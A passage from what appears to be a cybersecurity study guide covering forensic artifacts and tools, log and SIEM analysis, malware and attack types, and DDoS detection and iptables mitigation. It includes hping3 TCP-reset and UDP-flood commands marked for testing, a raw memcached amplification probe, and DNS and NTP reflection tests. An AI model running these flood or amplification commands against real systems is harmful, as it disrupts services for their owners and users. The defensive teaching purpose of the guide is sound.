- **MFT (Master File Table)**: NTFS file system metadata
- **MAC(b) Timestamps**: Modified, Accessed, Changed, Birth timestamps
- **Internet Explorer file access**: Browser file interaction history
- **Shell Bags**: Windows Explorer folder access history

#### Program Execution
- **BAM/DAM**: Background Activity Moderator - execution paths and timestamps
- **SRUM**: System Resource Usage Monitor - performance history, responsible users
- **Amcache.hve**: Installed applications registry hive with SHA1 hashes

#### Command Execution
- **PowerShell**:
  - `ConsoleHost_History.txt`: Command history
  - Script Block Logging: Detailed script execution logs
- **Windows Event Logs**: Command-line auditing (Event ID 4688)

#### Logins
- **Windows Event Logs**: Security.evtx
  - **4624**: Successful logon
  - **4625**: Failed logon attempt
  - **4648**: Explicit credential use

### Triage Collection 

```bash
kape.exe --tsource C: --tdest D:\Collection --target !BasicCollection   # Collect basic triage artifacts (registry, logs, browser, etc.)
kape.exe --msource D:\Collection --mdest D:\Analysis --module !EZParser # Run EZParser modules to process collected data
```

### Memory Forensics

**Goal:** Identify processes, sockets, injections, CLI history.

```bash
# Volatility 2
volatility -f memory.dump imageinfo                    # Identify OS profile (Win version, SP, arch)
volatility -f memory.dump --profile=Win7SP1x64 pslist  # List running processes
volatility -f memory.dump --profile=Win7SP1x64 netscan # List network connections
volatility -f memory.dump --profile=Win7SP1x64 malfind # Detect injected/malicious code
volatility -f memory.dump --profile=Win7SP1x64 cmdline # Show command-line args of processes

# Volatility 3
vol -f memory.dump windows.info                       # Identify OS details
vol -f memory.dump windows.pslist                     # List running processes
vol -f memory.dump windows.netscan                    # List network connections
vol -f memory.dump windows.malfind                    # Detect injected/malicious code
vol -f memory.dump windows.cmdline                    # Show command-line args of processes
```

### Disk Imaging

**Goal:** Forensically sound disk copy + integrity verification.

```bash
lsblk -f                                                 # List block devices & filesystems
fdisk -l /dev/sda                                        # Show partition layout

dd if=/dev/sda of=/evidence/disk_image.dd bs=4M conv=sync,noerror status=progress     # Raw bitstream copy with error handling
dc3dd if=/dev/sda of=/evidence/disk_image.dd hash=sha256 log=/evidence/dc3dd.log      # Forensic copy with live hashing + log
dcfldd if=/dev/sda of=/evidence/disk_image.dd hash=sha256 hashlog=/evidence/hash.txt  # Forensic copy with hash output file
ewfacquire /dev/sda -t /evidence/case001 -C "Case 001" -S 2048 -u -P                  # Acquire image in E01 format with compression, metadata, segmentation

sha256sum /evidence/disk_image.dd > /evidence/disk_image.dd.sha256 # Generate hash for verification
ewfverify /evidence/case001.E01                                    # Verify EWF acquisition
```

### File Analysis

```bash
file suspicious.bin                           # Identify file type from magic bytes
strings -a suspicious.bin | grep -i http      # Extract readable strings (e.g., URLs, creds, flags)
hexdump -C suspicious.bin | head -50          # View hex content for header analysis
binwalk -e suspicious.bin                     # Extract embedded/packed files
exiftool image.jpg                            # Extract metadata (timestamps, GPS, camera info, etc.)
```

### Network Forensics

```bash
tcpdump -i eth0 -w capture.pcap                              # Capture all packets to file
tcpdump -r capture.pcap 'port 80'                            # Show only HTTP traffic from capture
tcpdump -i eth0 'src host 192.168.1.1 and dst port 22'       # Filter SSH traffic from specific host

nc -l -p 4444                                                # Listen for inbound connections on port 4444
nc target.com 80                                             # Connect to target host on port 80
```

### PCAP Analysis

```bash
tshark -r capture.pcap -T fields -e ip.src -e ip.dst -e tcp.port              # Extract source/dest IPs and ports
tshark -r capture.pcap -Y "dns" -T fields -e frame.time -e dns.qry.name       # List DNS queries with timestamps
tshark -r capture.pcap -Y "http.request" -T fields -e http.host -e http.request.uri # Show HTTP hosts + URIs

tshark -r capture.pcap -z io,phs                                              # Protocol hierarchy stats
tshark -r capture.pcap -z conv,tcp                                            # TCP conversations
tshark -r capture.pcap -z endpoints,ip                                        # IP endpoint statistics

tshark -r capture.pcap -Y "http.request.method==POST"                         # Detect POST requests (possible exfil)
tshark -r capture.pcap -Y "tcp.flags.syn==1 and tcp.flags.ack==0"             # Detect port scans (lots of SYNs)

tshark -r capture.pcap --export-objects http,/tmp/http_objs                   # Extract HTTP objects from capture
```

### Steganography
**Purpose**: Hide data within other files (images, audio, text) or detect hidden content.

**Detection Tools**:
```bash
# Image steganography detection
steghide extract -sf image.jpg          # Extract hidden data (if password known)
stegsolve image.jpg                     # Visual steganalysis tool
binwalk image.jpg                       # Check for embedded files
strings image.jpg | grep -i flag        # Search for hidden text
zsteg image.png                         # PNG/BMP steganography detection

# Audio steganography
sonic-visualiser audio.wav              # Visual audio analysis
audacity audio.wav                      # Manual audio inspection
```

**Common Techniques**:
- **LSB (Least Significant Bit)**: Modify least significant bits in image pixels
- **DCT (Discrete Cosine Transform)**: Hide data in JPEG compression coefficients
- **Spread Spectrum**: Distribute data across multiple frequency bands
- **Text Steganography**: Use whitespace, invisible characters, or word patterns

### Sleuth Kit (TSK)

**Purpose:** Command-line forensic suite for file system and disk analysis. Often used underneath Autopsy.

```bash
mmls disk.flag.img # see partitions
fsstat -o 2048 disk.flag.img # determine file system
fls -o 2048 dds2-alpine.flag.img # list files
fls -o 2048 dds2-alpine.flag.img 18290 # list files in a directory
icat -o 2048 dds2-alpine.flag.img 18291 # extract a file
fls -i raw -f ext4 -o 360448 -r disk.flag.img | grep flag # search for files with flag in the name
icat -i raw -f ext4 -o 360448 -r disk.flag.img 2371 # extract a file by inode

-i is the image type, 
-f is the file system type
-r is to recursively display directories
```
* Provides **file-level access, metadata inspection, and recovery**.
* Strong for timeline analysis and deleted file carving.

### Autopsy (GUI)

**Purpose:** Graphical front-end for Sleuth Kit, easier workflow for large cases.

* Provides **case management, timelines, keyword search, hash matching, file carving**.
* Built-in modules for web history, email parsing, EXIF, and more.
* Good for **collaborative investigations**.

```bash
autopsy /path/to/case/   # Launch or open a forensic case in Autopsy
```

**Key Features:**
- File system analysis (NTFS, FAT, Ext2/3/4, HFS+)
- Deleted file recovery
- Timeline analysis
- Keyword searching
- Hash analysis (MD5, SHA1, SHA256)
- Email analysis
- Registry analysis (Windows)

**Common Workflow:**
1. Create new case
2. Add data source (disk image, drive, logical files)
3. Configure ingest modules (hash lookup, keyword search, etc.)
4. Analyze results in various views
5. Generate reports

## Log Analysis
Log analysis is the process of reviewing and interpreting log files to identify security incidents, system errors, or performance issues.

```bash
# Apache logs
tail -f /var/log/apache2/access.log                 # Real-time log monitoring
grep "404" /var/log/apache2/access.log | head -10   # Find 404 errors

# System logs
journalctl -f                                       # Real-time system log monitoring  
grep "Failed password" /var/log/auth.log            # Failed SSH login attempts

# Windows Event Logs
Get-WinEvent -LogName Security | Where-Object {$_.Id -eq 4625}    # Failed login attempts
```

## SIEM Tools

### Splunk
Splunk is a platform for searching, monitoring, and analyzing machine-generated big data through a web-style interface.

```bash
# Splunk Search Processing Language (SPL)
index=security sourcetype=firewall action=blocked           # Search blocked firewall events
index=web_logs status=404 | stats count by clientip         # Count 404 errors by IP
index=windows EventCode=4625 | timechart count by src_ip    # Failed login attempts over time

# Splunk commands
./splunk start                                              # Start Splunk
./splunk stop                                               # Stop Splunk
./splunk add monitor /var/log/apache2/access.log           # Add log file monitoring
./splunk list inputstatus                                  # Check input status

# Search examples
sourcetype=access_combined | eval hour=strftime(_time,"%H") | stats count by hour
index=security | where match(src_ip, "^192\.168\.1\.")     # Filter by IP range
index=* | search "failed" OR "error" | head 100            # Search for failures
```

**Key Features:**
- **Real-time monitoring**: Live dashboards and alerts
- **Machine learning**: Anomaly detection and predictive analytics
- **Correlation**: Link events across different data sources
- **Visualization**: Charts, graphs, and custom dashboards

### ELK Stack (Elasticsearch, Logstash, Kibana)
Open-source platform for collecting, parsing, storing, and visualizing log data.

#### Logstash Configuration
```ruby
# /etc/logstash/conf.d/apache.conf
input {
  file {
    path => "/var/log/apache2/access.log"
    start_position => "beginning"
  }
}

filter {
  grok {
    match => { "message" => "%{COMBINEDAPACHELOG}" }
  }

  date {
    match => [ "timestamp", "dd/MMM/yyyy:HH:mm:ss Z" ]
  }

  mutate {
    convert => { "response" => "integer" }
    convert => { "bytes" => "integer" }
  }
}

output {
  elasticsearch {
    hosts => ["localhost:9200"]
    index => "apache-logs-%{+YYYY.MM.dd}"
  }
}
```

#### Elasticsearch Queries
```bash
# Basic search
curl -X GET "localhost:9200/apache-logs-*/_search?q=response:404"

# Aggregation query
curl -X GET "localhost:9200/apache-logs-*/_search" -H 'Content-Type: application/json' -d'
{
  "aggs": {
    "top_ips": {
      "terms": {
        "field": "clientip.keyword",
        "size": 10
      }
    }
  }
}'

# Time-based query
curl -X GET "localhost:9200/apache-logs-*/_search" -H 'Content-Type: application/json' -d'
{
  "query": {
    "range": {
      "@timestamp": {
        "gte": "2024-01-01",
        "lte": "2024-01-31"
      }
    }
  }
}'
```

#### Kibana Dashboards
```json
# Sample visualization for top source IPs
{
  "visualization": {
    "title": "Top Source IPs",
    "type": "pie",
    "params": {
      "grid": {"categoryLines": false, "style": {"color": "#eee"}},
      "categoryAxes": [{"id": "CategoryAxis-1", "type": "category", "position": "bottom"}],
      "valueAxes": [{"id": "ValueAxis-1", "name": "LeftAxis-1", "type": "value", "position": "left"}]
    }
  }
}
```

#### ELK Management Commands
```bash
# Elasticsearch
systemctl start elasticsearch                            # Start Elasticsearch
curl -X GET "localhost:9200/_cluster/health"             # Check cluster health
curl -X GET "localhost:9200/_cat/indices?v"              # List indices

# Logstash
/usr/share/logstash/bin/logstash -t                       # Test configuration
systemctl start logstash                                  # Start Logstash
tail -f /var/log/logstash/logstash-plain.log              # Monitor logs

# Kibana
systemctl start kibana                                    # Start Kibana
# Access via http://localhost:5601
```

### Zeek (Network Security Monitor)
Open-source network analysis framework for traffic monitoring and intrusion detection.

#### Zeek Scripting Basics
**Data Types**:
```py
# Set: Stores unique elements
local banned_ips: set[addr] = {192.168.1.100, 10.0.0.50};

# Table: Maps keys to values
local connection_count: table[addr] of count = table();

# Vector: Collection of same-type objects
local ports: vector of port = {80/tcp, 443/tcp, 22/tcp};

# Record: Custom complex data types
type HostInfo: record {
    ip: addr;
    hostname: string;
    last_seen: time;
};
```

**Event Handling**:
```py
# Event triggered on new TCP connections
event new_connection(c: connection) {
    print fmt("New connection: %s -> %s", c$id$orig_h, c$id$resp_h);
}

# Event for HTTP requests
event http_request(c: connection, method: string, original_URI: string) {
    if (method == "POST" && /login/ in original_URI) {
        print fmt("Login attempt from %s", c$id$orig_h);
    }
}

# Event for DNS queries
event dns_request(c: connection, msg: dns_msg, query: string) {
    if (/malware\.com/ in query) {
        print fmt("Suspicious DNS query: %s from %s", query, c$id$orig_h);
    }
}
```

# Types of Cyber Attacks

## Malware Types
**Malware** is malicious software designed to harm, exploit, or gain unauthorized access to computer systems.

**Structure**:
- **Infection Mechanism**: How malware spreads and replicates
- **Trigger**: Event/condition that activates the malware (logic bomb)
- **Payload**: Actions performed, causing harm or effects

**Phases**:
1. **Dormant**: Idle, may activate later (not all viruses have this)
2. **Propagation**: Replicates to other programs/system areas
3. **Triggering**: Activates due to system events
4. **Execution**: Performs intended function and impact

**Types**:
- **Polymorphic**: Changes appearance (encryption) while keeping core code same, evades signature detection
- **Metamorphic**: Completely rewrites code with each infection, making detection extremely difficult

### Virus
- **Definition**: Self-replicating code that attaches to executable files
- **Behavior**: Requires host file execution to spread
- **Example**: Boot sector viruses, file infectors
```bash
# Detection
clamscan -r /home/user/                   # ClamAV scan
rkhunter --check                          # Rootkit detection
```

### Worm
- **Definition**: Self-propagating malware that spreads across networks
- **Behavior**: Replicates independently without user interaction
- **Examples**: Code Red, Conficker, WannaCry
```bash
# Network monitoring for worm activity
netstat -tuln | grep LISTEN              # Check listening ports
ss -tuln                                 # Modern alternative
tcpdump -i any 'port 445'                # Monitor SMB traffic (common worm vector)
```

### Trojan Horse
- **Definition**: Appears legitimate but contains malicious code
- **Behavior**: Relies on social engineering for installation
- **Examples**: Remote Access Trojans (RATs), banking trojans

### Ransomware
- **Definition**: Encrypts victim's files and demands payment
- **Behavior**: File encryption + ransom note display
- **Examples**: WannaCry, Locky, CryptoLocker
```bash
# Prevention/Recovery
# Regular backups
rsync -av --delete /data/ /backup/
# File integrity monitoring
aide --check
```

### Spyware
- **Definition**: Secretly collects user information
- **Behavior**: Keylogging, screen capture, data theft
- **Examples**: Keyloggers, screen recorders

### Adware
- **Definition**: Displays unwanted advertisements
- **Behavior**: Pop-ups, browser hijacking, tracking

### Rootkit
- **Definition**: Hides malicious activity from detection
- **Behavior**: Kernel-level or user-level system modification
- **Detection**: Behavioral analysis, memory forensics
```bash
# Rootkit detection tools
chkrootkit                               # Check for rootkits
rkhunter --check                         # Rootkit Hunter
unhide proc                              # Find hidden processes
```

### Botnet
- **Definition**: Network of compromised computers (bots/zombies)
- **Behavior**: Centralized command and control (C&C)
- **Usage**: DDoS attacks, spam, cryptocurrency mining

## Attack Vectors

### Phishing
- **Email phishing**: Fraudulent emails requesting credentials
- **Spear phishing**: Targeted attacks on specific individuals
- **Whaling**: Attacks targeting high-profile executives
- **Smishing**: SMS-based phishing
- **Vishing**: Voice/phone-based phishing

### Social Engineering
- **Pretexting**: Creating fake scenarios to gain trust
- **Baiting**: Offering something enticing (USB drops)
- **Tailgating**: Following authorized personnel into secure areas
- **Quid pro quo**: Offering services in exchange for information

### Man-in-the-Middle (MITM) Attacks
**Purpose**: Intercepting and potentially altering communications between two parties without their knowledge.

**Common MITM Techniques**:
- **ARP Spoofing**: Poisoning ARP tables to redirect traffic
- **DNS Spoofing**: Redirecting DNS queries to malicious servers
- **Wi-Fi Eavesdropping**: Creating fake hotspots or compromising legitimate ones
- **SSL Stripping**: Downgrading HTTPS connections to HTTP
- **BGP Hijacking**: Manipulating routing protocols to intercept traffic

**MITM Attack Scenarios**:
- **Public Wi-Fi**: Attacker controls network infrastructure
- **Certificate Attacks**: Using fraudulent or compromised certificates
- **Session Hijacking**: Stealing session tokens or cookies
- **Email Interception**: Compromising email servers or clients

**Prevention Measures**:
- **End-to-End Encryption**: Encrypt data before transmission
- **Certificate Pinning**: Validate specific certificates
- **VPN Usage**: Secure tunnel for all communications
- **HTTPS Everywhere**: Force encrypted connections
- **Network Monitoring**: Detect suspicious traffic patterns

### Advanced Persistent Threats (APT)
- **Definition**: Long-term, stealthy attacks by skilled adversaries
- **Characteristics**: Multi-stage, persistent presence, targeted
- **Examples**: APT1 (China), Lazarus Group (North Korea)

## DDoS (Distributed Denial of Service) Attacks
DDoS attacks overwhelm target systems with traffic from multiple sources to disrupt normal operations.

### Volume-Based Attacks (Volumetric)
**Goal**: Consume bandwidth or network resources
- **UDP Flood**: Sends large volumes of UDP packets to random ports
- **ICMP Flood**: Overwhelms target with ICMP Echo Request packets
- **Spoofed Packet Flood**: Uses spoofed IP addresses to hide attack source

```bash
# Detection and mitigation
# Monitor network traffic
iftop -i eth0                            # Real-time bandwidth usage
netstat -s | grep -i drop                # Check dropped packets
tcpdump -i any icmp                      # Monitor ICMP traffic

# Rate limiting with iptables
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s -j ACCEPT
iptables -A INPUT -p icmp --icmp-type echo-request -j DROP
```

### Protocol Attacks
**Goal**: Consume server resources (CPU, memory, connection tables) by exploiting protocol weaknesses

#### TCP-Based Attacks

##### Land Attack
**Mechanism**: Sends packets with identical source and destination IP/port, causing infinite loops or crashes
```bash
# Detection
tcpdump -i any 'src host X.X.X.X and dst host X.X.X.X and src port Y and dst port Y'

# Prevention with iptables
iptables -A INPUT -s $SERVER_IP --sport $PORT -d $SERVER_IP --dport $PORT -j DROP
```

##### SYN Flood
**Mechanism**: Overwhelms server by sending many SYN requests without completing handshake
```bash
# Detection - Monitor half-open connections
netstat -an | grep SYN_RECV | wc -l                # Count SYN_RECV connections
ss -s                                              # Connection statistics

# Protection
echo 1 > /proc/sys/net/ipv4/tcp_syncookies        # Enable SYN cookies
sysctl -w net.ipv4.tcp_max_syn_backlog=2048       # Increase SYN backlog
sysctl -w net.ipv4.tcp_synack_retries=3           # Reduce retries

# Advanced SYN flood protection with iptables
iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 3 -j ACCEPT
iptables -A INPUT -p tcp --syn -j DROP
```

##### SYN-ACK Flood
**Mechanism**: Floods victim with SYN-ACK packets, forcing it to waste resources responding
```bash
# Detection
tcpdump -i any 'tcp[tcpflags] & (tcp-syn|tcp-ack) == (tcp-syn|tcp-ack)'

# Mitigation
iptables -A INPUT -p tcp --tcp-flags SYN,ACK SYN,ACK -m limit --limit 10/minute -j ACCEPT
iptables -A INPUT -p tcp --tcp-flags SYN,ACK SYN,ACK -j DROP
```

##### ACK+PSH+SYN Flood
**Mechanism**: Sends TCP packets with unusual flag combinations to confuse or overload systems
```bash
# Detection of suspicious flag combinations
tcpdump -i any 'tcp[tcpflags] & (tcp-ack|tcp-push|tcp-syn) == (tcp-ack|tcp-push|tcp-syn)'

# Block unusual flag combinations
iptables -A INPUT -p tcp --tcp-flags ALL SYN,ACK,PSH -j DROP          # Block ACK+PSH+SYN
iptables -A INPUT -p tcp --tcp-flags ALL ALL -j DROP                  # Christmas tree packets
iptables -A INPUT -p tcp --tcp-flags ALL NONE -j DROP                 # Null packets
iptables -A INPUT -p tcp --tcp-flags SYN,FIN SYN,FIN -j DROP          # SYN+FIN combination
```

##### TCP Reset Attack
**Mechanism**: Sends spoofed RST packets to forcibly close active connections
```bash
# Detection
tcpdump -i any 'tcp[tcpflags] & tcp-rst != 0'

# Generate TCP reset attack (for testing purposes only)
# hping3 -R -p 80 -s 12345 target.com

# Protection - Rate limit RST packets from external sources
iptables -A INPUT -p tcp --tcp-flags RST RST -m limit --limit 5/minute -j ACCEPT
iptables -A INPUT -p tcp --tcp-flags RST RST -j DROP

# Monitor for connection reset attacks
netstat -s | grep -i reset
```

#### UDP-Based Attacks

##### UDP Flood
**Mechanism**: Sends massive number of UDP packets to overload bandwidth or CPU resources
```bash
# Detection
netstat -su | grep -i udp                         # UDP statistics
tcpdump -i any 'udp and length > 1000'           # Monitor large UDP packets

# Generate UDP flood (for testing purposes only)
# hping3 -2 -p 80 --flood target.com

# Mitigation
iptables -A INPUT -p udp -m limit --limit 50/second -j ACCEPT
iptables -A INPUT -p udp -j DROP

# Rate limit specific UDP ports
iptables -A INPUT -p udp --dport 53 -m limit --limit 20/second -j ACCEPT    # DNS
iptables -A INPUT -p udp --dport 123 -m limit --limit 10/second -j ACCEPT   # NTP
```

##### Fraggle Attack
**Mechanism**: UDP version of Smurf attack using broadcast addresses on Echo (port 7) and Chargen (port 19) services
```bash
# Detection
tcpdump -i any 'udp and (port 7 or port 19) and dst host broadcast'

# Disable vulnerable services
systemctl disable echo                    # Disable Echo service
systemctl disable chargen               # Disable Character Generator service

# Block broadcast traffic to vulnerable ports
iptables -A INPUT -p udp --dport 7 -m pkttype --pkt-type broadcast -j DROP
iptables -A INPUT -p udp --dport 19 -m pkttype --pkt-type broadcast -j DROP

# Disable IP forwarding for broadcast packets
echo 0 > /proc/sys/net/ipv4/conf/all/bc_forwarding
```

##### DNS Flood
**Mechanism**: Overwhelms DNS server with large numbers of legitimate or fake lookup requests
```bash
# Detection
dig @target.dns.server test.example.com  # Test DNS responsiveness
tcpdump -i any 'port 53' | head -100     # Monitor DNS traffic

# DNS server protection (BIND configuration)
# /etc/bind/named.conf.options
rate-limit {
    responses-per-second 10;
    window 5;
    slip 2;
};

# Query rate limiting with iptables
iptables -A INPUT -p udp --dport 53 -m string --string "google.com" --algo bm -m recent --set --name dns_flood
iptables -A INPUT -p udp --dport 53 -m recent --update --seconds 60 --hitcount 10 --name dns_flood -j DROP

# Monitor DNS query patterns
journalctl -u named | grep "rate limit"
```

### Application Layer Attacks (Layer 7)
**Goal**: Exhaust application resources with seemingly legitimate requests

- **HTTP Flood**: High volume of HTTP GET/POST requests
- **Slowloris**: Slow, partial HTTP requests to exhaust connection pool
- **R.U.D.Y. (R-U-Dead-Yet)**: Slow POST requests with incomplete data

```bash
# Application monitoring
apache2ctl status                         # Apache server status
nginx -t && nginx -s reload              # Nginx configuration test

# Rate limiting in Nginx
limit_req_zone $binary_remote_addr zone=one:10m rate=1r/s;
limit_req zone=one burst=5;

# Fail2ban for automated blocking
fail2ban-client status                    # Check fail2ban status
fail2ban-client set apache-overflows bantime 3600
```

### Reflection Attacks
**Mechanism**: Attackers fake the victim's IP address (IP spoofing) and send requests to legitimate servers, which then unknowingly send large responses to the victim.

**How Reflection Works**:
1. **IP Spoofing**: Attacker spoofs victim's IP as source address
2. **Request to Reflector**: Sends small requests to legitimate servers (reflectors)
3. **Amplified Response**: Servers send large responses to spoofed IP (victim)
4. **Traffic Amplification**: Small request generates much larger response

```bash
# Common reflection attack vectors and detection

# DNS Reflection Detection
tcpdump -i any 'src port 53 and dst host VICTIM_IP'
dig @target.dns.server ANY isc.org                    # Test for large responses

# NTP Reflection Detection
tcpdump -i any 'src port 123 and dst host VICTIM_IP'
ntpdc -c monlist target.ntp.server                    # Check for vulnerable monlist

# SNMP Reflection Detection
tcpdump -i any 'src port 161 and dst host VICTIM_IP'
snmpwalk -v2c -c public target.snmp.server            # Test SNMP response size

# Memcached Reflection Detection
tcpdump -i any 'src port 11211 and dst host VICTIM_IP'
echo -en "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -u target.server 11211

# SSDP/UPnP Reflection Detection
tcpdump -i any 'src port 1900 and dst host VICTIM_IP'
```

**Protection Against Being Used as Reflector**:
```bash
# DNS Server Protection (BIND)
# /etc/bind/named.conf.options
options {
    recursion no;                                      # Disable open recursion
    allow-recursion { 192.168.1.0/24; };             # Limit to authorized networks
    rate-limit {
        responses-per-second 10;
        window 5;
        slip 2;
        exempt-clients { 192.168.1.0/24; };
    };
};

# NTP Server Protection
# /etc/ntp.conf
disable monitor                                        # Disable monlist command
restrict default kod nomodify notrap nopeer noquery
restrict -6 default kod nomodify notrap nopeer noquery

# SNMP Protection
# /etc/snmp/snmpd.conf
rocommunity private 192.168.1.0/24                   # Restrict community access
syslocation "Private Network"
syscontact "admin@private.network"

# Memcached Protection
memcached -l 127.0.0.1 -U 0                          # Localhost only, disable UDP

# Block reflection requests at firewall level
iptables -A INPUT -p udp --dport 53 -m string --string "ANY" --algo bm -j DROP     # Block DNS ANY queries
iptables -A INPUT -p udp --dport 123 -m string --string "monlist" --algo bm -j DROP # Block NTP monlist
iptables -A INPUT -p udp --dport 1900 -j DROP                                       # Block SSDP
iptables -A INPUT -p udp --dport 11211 -s ! 127.0.0.1 -j DROP                     # Block external Memcached
```

**Protection Against Being Victim of Reflection**:
```bash
# Upstream filtering (ISP/Network Provider level)
# Implement BCP 38 (ingress filtering) to prevent IP spoofing

# Local protection measures
# Rate limit inbound traffic on commonly reflected ports
iptables -A INPUT -p udp --sport 53 -m limit --limit 100/second -j ACCEPT     # DNS responses
iptables -A INPUT -p udp --sport 123 -m limit --limit 50/second -j ACCEPT     # NTP responses
iptables -A INPUT -p udp --sport 161 -m limit --limit 20/second -j ACCEPT     # SNMP responses
iptables -A INPUT -p udp --sport 11211 -m limit --limit 10/second -j ACCEPT   # Memcached responses

# Monitor for reflection attacks
tcpdump -i any 'udp and (src port 53 or src port 123 or src port 161 or src port 11211)' | head -100

# Detect amplification ratio
# Compare inbound vs outbound traffic on reflection ports
netstat -su | grep -E "(packets received|packets sent)"
```

**Common Reflection Services and Amplification Factors**:
| Service   | Port  | Protocol | Amplification Factor | Request Size | Response Size   |
| --------- | ----- | -------- | -------------------- | ------------ | --------------- |
| DNS       | 53    | UDP      | 28-54x               | 60 bytes     | 1700-3200 bytes |
| NTP       | 123   | UDP      | 200x                 | 8 bytes      | 1600 bytes      |
| SNMP      | 161   | UDP      | 6.3x                 | 87 bytes     | 550 bytes       |
| NetBIOS   | 137   | UDP      | 3.8x                 | 50 bytes     | 190 bytes       |
| SSDP      | 1900  | UDP      | 30.8x                | 65 bytes     | 2000 bytes      |
| Memcached | 11211 | UDP      | 10,000-51,000x       | 15 bytes     | 750KB+          |
| CharGen   | 19    | UDP      | 358x                 | 1 byte       | 358 bytes       |


### Amplification Attacks
**Goal**: Amplify attack traffic using vulnerable services that respond with larger packets

#### DNS Amplification
**Mechanism**: Small DNS queries (60 bytes) → Large DNS responses (up to 4000+ bytes)
```bash
# Detection
dig @8.8.8.8 ANY isc.org                 # Large DNS response test
tcpdump -i any 'port 53 and greater 512' # Monitor large DNS packets

# Test for open DNS resolvers (vulnerable to abuse)
dig @target.dns.server google.com        # Should only work for authorized clients

# Protection for DNS servers
# /etc/bind/named.conf.options
recursion no;                            # Disable recursion for authoritative servers
allow-recursion { 192.168.1.0/24; };     # Limit recursive queries to local network

# Rate limiting with iptables
iptables -A INPUT -p udp --dport 53 -m recent --set --name dns_query
iptables -A INPUT -p udp --dport 53 -m recent --update --seconds 60 --hitcount 20 -j DROP
```

#### NTP Amplification
**Mechanism**: Uses NTP monlist command for up to 200x amplification
```bash
# Check if NTP server is vulnerable
ntpdc -c monlist target.ntp.server       # Check if monlist is enabled
ntpq -c rv target.ntp.server             # Query NTP server

# Secure NTP configuration (/etc/ntp.conf)
disable monitor                          # Disable monlist command
restrict default kod nomodify notrap nopeer noquery    # Restrict access
restrict -6 default kod nomodify notrap nopeer noquery

# Alternative: use restrict with specific permissions
restrict 192.168.1.0 mask 255.255.255.0 nomodify notrap

# Block NTP monlist requests
iptables -A INPUT -p udp --dport 123 -m string --string "monlist" --algo bm -j DROP
```

#### Memcached Amplification
**Mechanism**: Up to 51,000x amplification factor using UDP Memcached
```bash
# Test for vulnerable Memcached servers
echo -en "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -u target.server 11211

# Secure Memcached configuration
memcached -l 127.0.0.1                   # Bind to localhost only
memcached -U 0                           # Disable UDP completely

# Block external access to Memcached
iptables -A INPUT -p udp --dport 11211 -s ! 127.0.0.1 -j DROP
iptables -A INPUT -p tcp --dport 11211 -s ! 192.168.1.0/24 -j DROP

# Monitor for Memcached abuse
tcpdump -i any 'port 11211 and udp' | grep -v localhost
```

#### SSDP Amplification
**Mechanism**: UPnP Simple Service Discovery Protocol can provide significant amplification
```bash
# Detection
tcpdump -i any 'port 1900 and udp'      # Monitor SSDP traffic

# Disable UPnP/SSDP services
systemctl disable avahi-daemon           # Disable SSDP
systemctl stop upnp                      # Stop UPnP services

# Block SSDP traffic
iptables -A INPUT -p udp --dport 1900 -j DROP
iptables -A OUTPUT -p udp --dport 1900 -j DROP

# Disable UPnP in router/firewall settings
# Set "UPnP Enable" to "Disable" in router configuration
```

## DDoS Mitigation Strategies

### 1. Rate Limiting & Traffic Filtering
**Purpose**: Restrict excessive requests or connections to prevent resource exhaustion
```bash
# Connection rate limiting
iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT

# Per-IP connection limiting
iptables -A INPUT -p tcp --syn --dport 80 -m connlimit --connlimit-above 10 -j REJECT
iptables -A INPUT -p tcp --syn --dport 443 -m connlimit --connlimit-above 10 -j REJECT

# UDP rate limiting
iptables -A INPUT -p udp -m limit --limit 50/second --limit-burst 100 -j ACCEPT
iptables -A INPUT -p udp -j DROP

# Block specific attack patterns
iptables -A INPUT -p tcp --tcp-flags ALL ALL -j DROP          # Christmas tree packets
iptables -A INPUT -p tcp --tcp-flags ALL NONE -j DROP         # Null packets
iptables -A INPUT -p tcp --tcp-flags SYN,FIN SYN,FIN -j DROP  # SYN+FIN combination
```

### 2. SYN Flood Protection (SYN Cookies, SYN Proxy)
**Purpose**: Prevent half-open connections from overloading server resources
```bash
# Enable SYN cookies (kernel-level protection)
echo 1 > /proc/sys/net/ipv4/tcp_syncookies
sysctl -w net.ipv4.tcp_syncookies=1

# Tune TCP parameters for SYN flood protection
sysctl -w net.ipv4.tcp_max_syn_backlog=2048      # Increase SYN backlog
sysctl -w net.ipv4.tcp_synack_retries=2          # Reduce SYN-ACK retries
sysctl -w net.ipv4.tcp_syn_retries=2             # Reduce SYN retries
sysctl -w net.ipv4.tcp_fin_timeout=30            # Reduce FIN timeout

# SYN proxy with iptables (SYNPROXY target)
iptables -t raw -A PREROUTING -p tcp -m tcp --syn -j CT --notrack
iptables -A INPUT -p tcp -m conntrack --ctstate INVALID,UNTRACKED -j SYNPROXY --sack-perm --timestamp --wscale 7 --mss 1460
iptables -A INPUT -m conntrack --ctstate INVALID -j DROP

# Monitor SYN flood attacks
netstat -an | grep SYN_RECV | wc -l              # Count half-open connections
ss -s | grep -i syn                              # Connection statistics
```

### 3. Firewalls & IDS/IPS Integration
**Purpose**: Identify and block unusual traffic patterns at the network level
```bash
# Advanced iptables rules for DDoS protection
iptables -N ddos-protect
iptables -A INPUT -j ddos-protect

# Limit new connections per minute
iptables -A ddos-protect -p tcp --syn -m recent --name ddos --set
iptables -A ddos-protect -p tcp --syn -m recent --name ddos --update --seconds 60 --hitcount 20 -j DROP

# Protect against port scans
iptables -A ddos-protect -p tcp --tcp-flags SYN,ACK,FIN,RST RST -m limit --limit 1/s -j ACCEPT

# Suricata rules for DDoS detection
# /etc/suricata/rules/ddos.rules
drop tcp any any -> $HOME_NET any (msg:"SYN Flood Detected"; flags:S; threshold:type both, track by_src, count 100, seconds 60; sid:1001;)
drop udp any any -> $HOME_NET any (msg:"UDP Flood Detected"; threshold:type both, track by_src, count 1000, seconds 60; sid:1002;)
alert icmp any any -> $HOME_NET any (msg:"ICMP Flood Detected"; threshold:type both, track by_src, count 50, seconds 60; sid:1003;)
```

### 4. Web Application Firewall (WAF)
**Purpose**: Protect against malicious application-layer attacks
```bash
# ModSecurity configuration for Apache
# /etc/modsecurity/modsecurity.conf
SecRule REQUEST_HEADERS:User-Agent "@detectSQLi" "id:1001,phase:2,block,msg:'SQL Injection in User-Agent'"
